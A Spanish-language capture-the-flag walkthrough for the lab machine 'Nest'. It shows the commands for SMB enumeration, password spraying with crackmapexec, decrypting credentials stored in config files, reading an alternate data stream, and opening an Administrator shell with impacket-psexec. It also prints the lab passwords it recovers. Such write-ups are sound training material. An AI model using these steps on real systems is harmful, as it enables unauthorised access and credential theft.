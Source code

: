 ```yaml
---
description: '✍️ Autor: VbScrub🔍 Dificultad: Fácil 📅 Fecha de creación: 04/06/2020'
---
```


# Nest

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.178
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV -p- 10.10.10.178
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 445 (SMB):** El puerto 445/tcp está abierto y ejecutando el servicio `microsoft-ds?`, lo que indica la posible presencia de un servicio SMB en el sistema.
* **Puerto 4386 (unknown):** El puerto 4386/tcp también está abierto y ejecutando un servicio desconocido. Según el fingerprinting de respuesta, el servicio se identifica como `Reporting Service V1.2`, lo que sugiere que permite a los usuarios ejecutar consultas en bases de datos mediante el formato HQK. Entre los comandos disponibles se encuentran `LIST`, `SETDIR`, `RUNQUERY`, `DEBUG` y `HELP`. Esta funcionalidad podría representar un posible vector de ataque si el servicio no está correctamente asegurado.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p445,4386 -v 10.10.10.178
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos el dominio en el `/etc/hosts`.

```bash
echo "10.10.10.178 nest.htb" >> /etc/hosts
```

Listamos recursos compartidos.

```bash
smbclient -L 10.10.10.178
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Listamos el contenido de los recursos compartidos.

```bash
smbclient \\\\nest.htb\\Users -N
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
smbclient \\\\nest.htb\\Data -N
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En la ruta `/Shared/Templates/HR` hay un archivo interesante.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos unas credenciales por lo que con los usuarios descubiertos antes realizamos fuerza bruta.

```bash
crackmapexec smb nest.htb -u usuarios -p 'welcome2019' --continue-on-success
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Intenté iniciar sesión con los tres usuarios y, al usar **TempUser**, obtuve un archivo, pero estaba vacío. Volví a acceder al recurso compartido **Data** como **TempUser** y descargué los archivos. Entre ellos, encontré un archivo llamado **RU\_Config.xml**.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En otro archivo (**config.xml**) encontramos también información.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Entramos donde **Carl**.

```bash
smbclient -U ./TempUser //10.10.10.178/Secure$
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Lo que estamos buscando es una línea del artículo que mencionamos antes, un algoritmo para descifrar el cifrado del archivo **RU\_Config.xml**. Quiero hacerlo rápido, así que voy a dotnetfiddle.net, realizar algunos ajustes al código y ejecutarlo con la contraseña cifrada que está en el archivo de configuración.

{% embed url="https://dotnetfiddle.net/" %}

El resultado es **xRxRxPANCAK3SxRxRx**. Bien, el usuario estaba claro, y ahora la contraseña está descifrada.

```
smbclient -U ./c.smith //10.10.10.178/Users
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos investigando para escalar a **root**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-24 110901.png" alt=""><figcaption></figcaption></figure>

{% embed url="https://superuser.com/questions/1520250/read-alternate-data-streams-over-smb-with-linux?source=post_page-----125aa20f9fea---------------------------------------" %}

```bash
allinfo "Debug Mode Password.txt"
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos lo descargamos.

```
get "Debug Mode Password.txt":Password:$Data
```

Esto debería devolverte la contraseña en formato claro, que en este caso es **WBQ201953D8w**.

Con la contraseña obtenida, conéctate al servidor HQK:

```bash
debug WBQ201953D8w
```

Dentro del servidor, ejecuta el siguiente comando en el directorio LDAP para ver la configuración:

```bash
showquery 2
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Esto debería devolverte las credenciales del **Administrador** en formato cifrado. En el ejemplo, la contraseña es **yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=**.

```bash
echo "yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=" | base64 --decode
```

Ejecuté el comando `file` sobre el archivo `HqKLdap.exe` y descubrí que es un ejecutable .NET. Lo copié a mi sistema Windows y lo abrí utilizando ILSpy. Dentro del archivo `HqKLdap`, en la sección `CR`, encontré la siguiente línea de código:

```csharp
return RD(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256);
```

Reemplacé esta línea en el script de Nest y modifiqué el archivo `config.xml` con el nombre de usuario y la contraseña de "Administrator". Luego ejecuté el script y obtuve lo siguiente:

**Anterior:**

```
XtH4nkS4Pl4y1nGX
Administrator
```

**Nuevo:**

```
AJPcXFcqZ32B993fPwoHWA==
XtH4nkS4Pl4y1nGX
```

La contraseña obtenida es: `XtH4nkS4Pl4y1nGX`.

Ahora, intentemos obtener una shell utilizando la siguiente herramienta:

```bash
impacket-psexec Administrator:XtH4nkS4Pl4y1nGX@nest.htb
```

Con este comando, deberíamos obtener acceso como `Administrator`.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

somos **root.**

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
